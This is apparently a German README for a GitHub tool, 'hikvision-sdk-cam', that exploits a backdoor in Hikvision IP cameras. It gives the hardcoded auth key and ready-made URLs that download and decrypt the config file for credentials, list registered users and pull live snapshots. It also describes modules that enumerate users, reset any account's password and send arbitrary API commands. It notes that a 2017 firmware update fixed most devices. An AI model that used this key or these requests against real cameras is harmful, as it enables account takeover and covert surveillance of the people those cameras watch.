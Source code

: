 # hikvision-sdk-cam

English version can be found [here](https://github.com/MatrixEditor/hikvision-sdk-cam/blob/main/eng.md).

<b>
DISCLAIMER: Alle informationen, die hier gepostet werden/ wurden, sind öffentlich auf anderen Seiten zugänglich. Dieses Repository bietet nur einen generellen Überblick über die Möglichkeitenvon Übergriffen, die durch die gebotenen Schwachstellen entstanden sind.
</b>

#
<b>UPDATE: Nach einem Firmware-Update 2017 sind die meisten Geräte gegen diese Schwachstelle immun. [Hier](https://sergei.nz/reverse-engineering-hikvision-sadp-tool/) gibt es einen Artikel zum Reverse-Engineering des neuen Passwort-Reset-Tools von Hikvision.</b>
#
[Hier](https://github.com/MatrixEditor/hikvision-sdk-cam/blob/main/doc/udp.md) geht es zur unoffiziellen Dokumentation der UDP basierten Kommunikation mit der Kamera. Diese wird auch von dem Passwort-Reset-Tool von Hikvision zum Reset verwendet.

## Backdoor

Es ist schon seit ein paar Jahren bekannt, dass es eine Backdoor in den Hikvision-Kameras gibt. Diese hätte geheim gehalten werden können, hätte man den Authentifizierungsschlüssel nicht in ein open-source Passwort-Reset-Tool geschrieben (Stichwort: HikPassword-Helper). Der Schlüssel lautet:

    AUTH_KEY = 'YWRtaW46MTEK'

Mithilfe dieses Schlüssels ist der Zugriff auf die interne Web-API der Kamera grundsätzlich möglich. Die Befehle dieser API sind in der Datei 'websdk.js' zu finden (einfach über einen beliebigen Browser die login-Seite überprüfen). Ein paar stehen mit Erklärung dazu in der Datei [commands.py](https://github.com/MatrixEditor/hikvision-sdk-cam/blob/main/src/base/commands.py).

## Zugriff erhalten

Um nun Zugriff auf das Gerät zu bekommen, gibt es verschiedene Wege, die recht einfach umzusetzen sind:

1. Die 'configData'-Datei herunterladen, entschlüsseln und nach den Credentials für registrierten Accounts suchen (Stichwort: hikvision-decryptor github)

    LINK: http:// [IP-ADDR] /System/configurationFile?auth=YWRtaW46MTEK

2. Die registrierten Nutzer/Accounts über einen Link laden und für einen das Passwort ändern (Anleitung dazu weiter unten)

### Links ohne Authentifizierung

Dieser Link zeigt Informationen zu allen registrierten Nutzern an:

    * http://<IP-ADDRESS>/Security/users?auth=YWRtaW46MTEK oder http://<IP-ADDRESS>/ISAPI/Security/users?auth=YWRtaW46MTEK

Hiermit kann ein (live)-Standbild der Kamera übertragen werden:

    *http://<IP-ADDRESS>/onvif-http/snapshot?auth=YWRtaW46MTEK

By the way: Die meisten API-Abfragen, siehe [commands.py](https://github.com/MatrixEditor/hikvision-sdk-cam/blob/main/src/base/commands.py) können auch mit diesem AUTH_KEY getätigt werden.

URL für einen Livestream (mit VLC-Player oder QuickTime-Player wiedergeben; der AUTH_KEY funktionier hierbei nicht):

    rtsp://<UNAME>:<PWD>@192.168.189.5:554/Streaming/channels/1/

## Main.py

Der Aufbau dieses Programms ist gleich dem in dem Repository 'Frontier-Silicon-Radio'. Nach dem Start können nur noch die Befehle 'use', 'quit' und 'modules' benutzt werden:

* use [module-name] : nutzt das angegebene modul (die Namen der Module können mit 'modules' ausgegeben werden)
* modules : gibt die Namen aller geladenen Module aus
* quit : beendet das Programm

Wählt man nun ein Modul aus, wird dies im Konsolen-Prompt mit angegeben. Jetzt können nur noch die Befehle 'set', 'run', 'show_options' und 'back' benutzt werden:

* set [option] [value] : Setzt die gewählte Option auf den gegebenen Wert
* show options : gibt eine Liste mit allen nötigen Parametern aus
* run : startet das modul
* back : geht in das Startmenü zurück.

## Module

### /injection/password_changer

Mit diesem kleinen Script kann das Passwort eines bestimmten Nutzers/Accounts geändert werden (hierzu benötigt man lediglich den AUTH_KEY). Um dies zu tun benötigt das Programm folgende eingaben:

    * IP-Addresse der Kamera,
    * den Usernamen der Accounts,
    * das neue Passwort,
    * und die User-ID des Accounts.

### /injection/user_encounter

Hiermit können alle registrierten Nutzer mit ihrer ID, dem Usernamen und ihrem Rang ausgelesen werden. Um dies zu tun benötigt das Programm folgende eingaben:

    * IP-Adresse der Kamera

### /isapi/command_executor

Wie der Name dieses Moduls schon verrät, versucht hier das Programm eine HTTP-GET Anfrage zu machen um eine API-Abfrage zu tätigen. Dazu benötigt das Programm folgende eingaben:

    * IP-Addresse der Kamera,
    * den Befehl, angefangen mit einem  '/'

Falls hierbei keine Rückmeldung erscheint, einfach den Link im Browser eingeben und schauen, ob der Link doch funktioniert. Aus irgendwelchen Gründen schafft es die 'requests'-API nicht, die Authentifizierung der Seiten mit dem AUTH_KEY nicht, der Browser (getestet mit Chrome und Firefox) schon.

 
